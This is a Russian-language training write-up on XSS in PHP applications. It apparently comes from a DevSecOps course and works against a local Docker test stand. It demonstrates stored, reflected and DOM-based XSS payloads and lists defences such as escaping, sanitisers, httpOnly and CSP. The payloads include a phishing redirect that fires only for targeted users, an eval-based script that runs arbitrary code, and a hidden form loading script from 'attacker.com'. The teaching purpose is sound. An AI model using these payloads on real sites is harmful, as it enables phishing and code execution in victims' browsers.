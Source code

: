 ## Безопасная разработка в HTML/CSS и PHP

### I. Теоретическая часть.

В соответствии со статистикой [NST](https://nvd.nist.gov/vuln/search/statistics?form_type=Basic&results_type=statistics&query=php+xss&search_type=all&isCpeNameSearch=false) количество найденных уязвимостей XSS в приложениях, написанных на PHP составило:

в 2021 году - 378, или 1,88% от общего числа уязвимостей (20158)

в 2022 году - 367, или 1,46% от общего числа уязвимостей (25101)

Две новых уязвимости такого класса на 18 апреля 2023 года:

| Уязвимость                                                   | Дата публикации | Описание                                                     |
| ------------------------------------------------------------ | --------------- | ------------------------------------------------------------ |
| [CVE-2022-28353](https://nvd.nist.gov/vuln/detail/CVE-2022-28353) | 15.04.2023      | В плагине предупреждения о внешнем перенаправлении для [MyBB](https://mybb.com/) URL-адрес перенаправления (он же external.php?url=) уязвим для XSS. Служит для выдачи предупреждения перед переходом по внешним ссылкам |
| [CVE-2023-29847](https://nvd.nist.gov/vuln/detail/CVE-2023-29847) | 14.04.2023      | Было обнаружено, что AeroCMS v0.0.1 содержит множество уязвимостей для сохраненных межсайтовых сценариев (XSS) с помощью параметров comment_author и comment_content в /post.php . Эти уязвимости позволяют злоумышленникам выполнять произвольные веб-скрипты или HTML с помощью созданной полезной нагрузки. |



### II. Практическая часть.

Запустим тестовый стенд.

`docker pull ket9/otus-devsecops-xss:latest`
`docker run -d -p 8080:80 --name otus-05 -e tokentimetolive=6000 ket9/otus-devsecops-xss:latest`

#### Stored XSS

Вид атаки, когда результат достигается при открытии пользователем страницы, куда выводится информация, хранящаяся на сервере. Такой тип атаки не требует обязательной фишиноговой подготовки в отношении пользователей, так как вредоносный код доставляется на их машины при посещении зараженного сайта.

В исследуемом сервисе такой вариант атаки доступен через добавление комментария. Например, можно организовать вывод сообщения при каждом открытии страницы со списком комментариев, указав в качестве текста комментария при его добавлении текст:

`My first comment!<script>alert("Congratulations! You was hacked!")</script>`

Можно привести сервис в состояние отказа в обслуживании в части просмотра или добавления комментариев, или выполнить редирект на фишинговый сайт с таким-же дизайном:

`<script>window.location.href="https://google.com"</script>`

В этом случае при открытии страницы с комментариями автоматически будет происходить редирект на указанную ссылку.

Могут быть случаи, когда подобного рода атака должна совершаться в отношении только одного или нескольких пользователей, а другие о ней знать не должны.  Доработав скрипт, мы получим его срабатывание только при наличии в адресной строке параметра **attack** со значением **true**:

`<script>`

`const params = new URLSearchParams(window.location.search);`

`const attack= params.get("attack");`

`if(attack==="true") {`

`    window.location.href="https://google.com"`

`};`

`</script>``

Нужным пользователям может быть отправлена должным образом сформированная ссылка фишинговым письмом, а остальные про наличие такой проблемы даже не узнают:

`http://localhost:8080/XSS-1/index.php?attack=true`

#### Reflected XSS

Вид атаки, когда результат достигается после ввода пользователем вредоносного кода. Другое название - неперсистентный XSS, так как вредоносный код не хранится на сервере. Вариант использования такой атаки - фишинговое письмо со ссылкой, содержащей вредоносный код:

`get.php?search=<script>alert("XSS ATTACK!")></script>;`

или через POST-запрос, например, в заранее подготовленной форме:

`form name=TheForm action=http://myapp.com/page.php method=post>`
   `<input type=hidden name=foo value="<script src=http://attacker.com/bad.js></script>;"/>`
`</form>`

В исследуемом приложении такой вид атаки недоступен.

#### DOM-based XSS

Межсайтовые скрипты на основе DOM – это уязвимость, которая появляется в объектной модели документа, а не на HTML-страницах. В этом случае выполняется манипулирование компонентами объектной модели документа, без отправки вредоносного кода на сервер, что существенно усложняет обнаружение такой уязвимости.

Так как в чистом виде этот тип атаки в приложении недоступен, попробуем продемонстрировать его, используя дополнительно Stored XSS.

С помощью простого скрипта и правильно сформированных ссылок мы можем выполнять произвольный код на атакуемой машине:

Добавляем комментарий:

`<script>var l = location.hash.slice(1);eval(l);</script>`

Формируем ссылку:

`http://localhost:8080/XSS-1/#alert('Surprise!')`

И получаем результат:

![surprise](./images/surprise.png)

Особенностью DOM-based атак является то, что они выполняются исключительно на стороне клиента. Это достигается за счет использования символа **#** в ссылке, так как все что находится после него отрезается и на сервер не передается, но доступно в JavaScript на клиенте. То есть в нашем случае для выполнения любоых операций, на которые способен JavaScript, нам достаточно только 1 зараженного комментария.

#### Blind XSS

Подвид Stored XSS, только ориентирован на отложенное срабатывание, и вообще не обязательно в этом приложении. Зачастую используется для атаки на административные панели сервисов.

#### Self XSS

Вид атаки, когда пользователь самостоятельно запускает вредоносный код, например в консоли браузера. 

#### mXSS (mutation-based XSS)

Относительно новый и достаточно опасный вектор атак. Заключается в том, что безопасный с точки зрения HTML-санитайзеров пользовательского ввода скрипт, после его обработки превращается во вредоносный. 

Примеры атаки с использованием этого метода для [Firefox](https://portswigger-labs.net/mxss/?input=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C![CDATA[%3C/style%3E%3Cimg%20title=%22]]%26gt;%26lt;/mglyph%26gt;%26lt;img%26Tab;src=1%26Tab;onerror=alert(1)%26gt;%22%3E) и [Chrome-based](https://portswigger-labs.net/mxss/?input=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C!--%3C/style%3E%3Cimg%20title=%22--%26gt;%26lt;img%20src=1%20onerror=alert(1)%26gt;%22%3E) браузеров.



### Основные технические способы противодействия XSS-атакам.

Экранирование входных и выходных данных, по возможности избегая самописных решений - лучше использовать или штатные средства языка, или популярные проверенные библиотеки (например, для PHP это Reform или HTML Purifier), отсекая HTML-теги и другие потенциально опасные данные.

Валидация пользовательского ввода.

Использование HTML-санитайзеров.

Установка для cookies, содержащих чуствительные данные флага **httpOnly** - тогда они не будут доступны для чтения через JavaScript.

Явно указывать кодировку страницы, чтобы избежать проблем с экранированием символов **<** и **>**, если они указаны в кодировке **UTF-7** (тогда они имеют вид **+ADw-** и **+AD4-** и скорее всего будут пропущены при валидации или экранировании, а с ними и весь вредоносный скрипт).

Использовать заголовок **Content Security Policy**. Это заголовок, который позволяет в явном виде объявить «белый список» источников, с которых можно подгружать различные данные, например, JS, CSS, изображения и пр. Даже если злоумышленнику удастся внедрить скрипт в веб-страницу, он не выполниться, если не будет соответствовать разрешенному списку источников (при условии внедрения через **script src=...**)

Регулярный анализ новых обнаруженных уязвимостей и обновление зависимостей проекта на версии, в которых обнаруженные уязвимости устранены.
